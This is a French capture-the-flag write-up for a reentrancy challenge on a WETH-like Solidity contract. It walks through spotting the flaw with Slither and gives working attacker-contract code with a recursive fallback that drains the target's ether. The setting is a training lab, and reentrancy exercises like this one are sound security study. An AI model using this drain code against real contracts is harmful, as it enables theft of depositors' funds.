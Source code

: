# Ethereum - Reentrancy
## 40 Points
### Poupées russes

## Énoncé
La société où vous êtes employé a décidé de copier le concept du célèbre token "Wrapped Ether (WETH)". Elle a récupéré un code source depuis internet et a publié son smart contract sans le contrôle d’un développeur Solidity, afin de limiter ses dépenses. Elle y dépose 0.1 ETH de garantie pendant la création du smart contract. Vous êtes sceptique quant à la sécurité de ce smart contract.

Votre objectif : voler les fonds déjà déposés de la société pour prouver à votre patron qu’il se trompe avant que des clients qui déposeraient de l’argent soient lésés !

## Solution

Le but de ce challenge est de vider le compte de la personne possédant tout sur le contrat Reentrancy. Comme son nom l'indique, il faut faire une Reentrancy Attack. Voici un schéma qui explique comment marche l'attaque pour y voir un peu plus clair:

![image](./ReentrancyExplanation.webp)

Aux premiers abords, on ne trouve pas de faille. Si on s'y connait on peut directement aperçevoir la ligne très douteuse au sein de la fonction **withdraw**:
```Solidity
msg.sender.call.value(wad)("");
```
Ou sinon, on peut utiliser l'outils **Slither**, grâce auquel, en une ligne de commande, on peut aperçevoir les problèmes de sécurité à l'intérieur du contrat que l'on donne en argument:

```Bash
slither Reentrancy.sol
```

C'est ce que j'ai fait, et j'ai stocké les résultats [ici](./slither-result.txt).

A partir de ça j'ai fait mes recherches, et je suis tombé sur un très bon site qui explique comment marche, et c'était d'autant plus intéressant car cela expliquait avec éxactement le même cas de figure que le challenge: avec un contrant en solidity ^0.5.0.
[Lien du site.](https://medium.com/@secureblockchain/blockchain-exploitation-labs-reentrancy-my-notes-2a7ffd9cfe8a)

L'outils dont je me suis aidé pour la compilation et le déploiement des smarts contracts est donné sur la page du challenge: http://remix.ethereum.org/.

Donc j'ai commencé par reprendre le contrat donné pour le challenge, je le compile et déploie sur remix à l'adresse donner lorsque l'on créer une instance sur la page du site de rootme.

En suite, je réalise mon contrat d'attaque ([voir ici](./Attacker.sol)), grâce auquel je vais pouvoir communiquer avec le contrat principale, et cherhcer une manière de vider ses fonds.

Tout d'abord il faut créer une interface reprennant les fonctions withdraw et deposit, les seules dont on a besoin:
```Solidity
interface targetInterface{
    function deposit() external payable;
    function withdraw(uint withdrawAmount) external;
}
```

En suite, initialiser le contrat d'attaque et la target:
```Solidity
contract simpleReentrancyAttack {
    targetInterface bankAddress = targetInterface([target address]);
    uint amount = 0.001 ether;
    [...]
}
```

Maintenant, il faut mettre en place la stratégie d'attaque, il faut avoir un fonction de dépôt, pour envoyer de l'argent au contrat, puis ensuite, fait une fonction qui va récupérer notre argent, et prendre au passage tout le reste:
```Solidity
    function deposit() public payable {
        bankAddress.deposit{value: amount}();
    }

    function attack() public payable {
        bankAddress.withdraw(amount);
    }

    fallback () external payable {
        if (address(bankAddress).balance >= amount){
            bankAddress.withdraw(amount);
        }
    }
```

On rajoute aussi des fonctions pour avoir accès au montant de la balance de la target, et pour pouvoir récupérer les fonds voler sur notre wallet:
```Solidity
    function getTargetBalance() public view returns(uint) {
        return address(bankAddress).balance;
    }

    function retrieveStolenFunds() public {
        payable(msg.sender).transfer(address(this).balance);
    }
```

Le process pour pouvoir faire la reentrancy attaque de notre côté est le suivant:
1. On va envoyer 1 ETH à la target, puis voir si sa balance a augmenté
2. Utiliser la fonction attack et récupérer tout ce qu'il y a dans le contrat
3. Regarder si il reste encore quelque chose dans la balance de la target. Si il n'y a plus rien, c'est que notre attaque a marché, on qu'on peut donc faire retrieveStolenFunds() et récupérer tout ce qu'on a volé.

Lorsque la target est à 0 dans sa balance, on peut donc utiliser la fonction **claim**, puis pour mettre **locked** à false, puis en conséquence, appuyer sur **next** et récupérer le flag du challenge.
